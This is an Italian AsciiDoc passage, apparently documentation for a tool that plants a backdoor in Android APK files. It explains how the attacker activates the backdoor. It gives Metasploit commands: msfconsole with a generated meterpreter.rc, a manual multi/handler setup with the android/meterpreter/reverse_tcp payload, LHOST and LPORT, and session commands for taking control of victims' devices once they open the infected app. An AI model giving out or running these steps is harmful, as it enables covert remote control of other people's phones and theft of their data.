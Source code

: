 [.text-center]
"`__Attivazione della backdoor__`"

L'attaccante, una volta condiviso il malware, attiva una shell su una propria
macchina che intercetti i pacchetti inviati dal malware. In questo modo,
l'attaccante può essere aggiornato sullo stato del malware e controllare a
distanza i dispositivi delle vittime, sfruttando la _backdoor_ creata.

L'attivazione della shell avviene sfruttando i comandi forniti da framework
**Metasploit**. Nello specifico, è necessario attivare una console mediante il
comando `msfconsole` e configurare l'exploit e il payload da utilizzare.

Il tool sviluppato semplifica questa operazione creando un file di
configurazione per la console del framework **Metasploit**. Tale file è
memorizzato nella cartella in cui il comando è stato eseguito, in parallelo al
file APK infetto. Tale file, memorizzato come `meterpreter.rc` può poi essere
utilizzato semplicemente con un comando:

[source,shell]
--------------
msfconsole -r meterpreter.rc
--------------

Questo comando avvierà la shell di Metasploit e attiverà l'exploit in
background. Quando una vittima aprirà l'applicazione, l'attaccante sarà
avvertito della creazione di una nuova sessione e potrà avviare l'interazione
con pochi comandi:

[source,shell]
-------------
sessions -l # List all sessions
sessions -i 1 # Interact with session 1
-------------

Il primo comando non è in realtà necessario: questo serve solo a ottenere una
lista di sessioni avviate in modo da poterne leggere l'ID da utilizzare nel
secondo comando (che avvia realmente la comunicazione con il device target).

Nel caso in cui non sia stato creato il file di configurazione di Metasploit, è
comunque possibile procedere a una configurazione manuale. Per farlo, basta
avviare la console di Metasploit mediante il comando `msfconsole`, ed eseguire
poi i seguenti comandi:

[source,shell]
--------------
use multi/handler
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 192.168.1.187 # Your private IP
set LPORT 4444 # The same port used in the malware creation
exploit -j -z
--------------
